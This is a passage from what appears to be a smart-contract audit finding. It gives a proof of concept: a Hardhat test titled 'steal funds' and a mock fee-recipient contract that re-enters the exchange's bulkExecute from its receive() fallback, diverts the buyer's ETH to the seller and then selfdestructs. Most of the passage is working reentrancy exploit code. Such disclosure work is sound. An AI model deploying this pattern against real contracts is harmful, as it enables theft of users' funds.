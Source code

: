               _executions.push({
                sell: await _sell.packNoOracleSig(),
                buy: await _buy.packNoSigs(),
              });
            }
            executions = _executions;
          });
          it("steal funds", async () => {
            let aliceBalanceBefore = await alice.getBalance();
            //price = 4 ETH
            value = price.mul(4);
            //call bulkExecute
            tx = await waitForTx(
              exchange.connect(bob).bulkExecute(executions, { value  }));
            let aliceBalanceAfter = await alice.getBalance();
            let aliceEarned = aliceBalanceAfter.sub(aliceBalanceBefore);
            //check that alice received all 4 ETH
            expect(aliceEarned).to.equal(value);
          });
        });

Add the following contract to mocks folder:  
`MockFeeRecipient.sol`:

    pragma solidity 0.8.17;
    
    import { Exchange } from "../Exchange.sol";
    import { Execution } from "../lib/OrderStructs.sol";
    
    contract MockFeeReceipient {
    
        bool lock;
        address _seller;
        uint256 _price;
    
        constructor(address seller, uint256 price) {
            _seller = seller;
            _price = price;
        }
        receive() external payable {
            Exchange ex = Exchange(msg.sender);
            if(!lock){
                lock = true;
                // first entrance when receiving fee
                uint256 feeAmount = msg.value;
                // Create empty calldata for bulkExecute and call it
                Execution[] memory executions = new Execution[](0);
                bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
                address(ex).call{value: 1}(data);
    
                // Now we received All of buyers funds. 
                // Send stolen ETH to seller minus the amount needed in order to keep execution.
                address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');
    
                // selfdestruct and send funds needed to Exchange (to not revert)
                selfdestruct(payable(msg.sender));
            }
            else{
                // Second entrance after steeling balance
                // We will get here after getting funds from reentrancy
            }
        }
    }
